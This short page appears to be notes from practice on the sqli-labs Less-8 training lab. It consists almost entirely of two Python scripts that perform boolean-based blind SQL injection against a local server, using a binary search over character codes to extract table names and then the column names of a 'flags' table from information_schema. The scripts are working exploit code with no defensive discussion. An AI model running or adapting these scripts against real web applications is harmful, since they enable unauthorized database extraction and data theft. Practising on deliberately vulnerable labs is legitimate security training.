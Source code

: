 ```python
import requests
import re
import string

result = ''

for i in range(1,20):
    print('*'*15,1,'*'*15)
    min = 32
    max = 127
    while min != max:
        mid = (min+max)//2
        url = f"http://127.0.0.1/sqli-labs/Less-8/?id=1' and ord(substr((select group_concat(table_name) from information_schema.tables where table_schema='answers'),{i},1))>{mid} %23"

        print('[*] :',url)
        response = requests.get(url).text  # text用于将内容以文本的返回
        if max == min+1:
            break
        if re.search("You are in",response):
            min = mid # [mid,max]
        else:
            max = mid # [min,mid]
    result += chr(max)
    print(result)

```





爆列名

```python
# 获取列名
import requests
import re
import string

ans = ''

for i in range(1,20):
    print('*'*15+f'{i}'+'*'*15)
    min = 32
    max = 127

    while min != max:
        mid = (min+max)//2
        url = f"http://localhost/sqli-labs/Less-8/?id=1' and ord(substr((select group_concat(column_name) from information_schema.columns where table_name='flags'),{i},1))>{mid}"

        print('[*] :',url)
        res = requests.get(url).text

        if max == min+1:
            break

        if re.search("You are in",res):
            min = mid # [mid,max]
        else:
            max = mid # [min,max]
    ans += chr(max)
    print(ans)
```
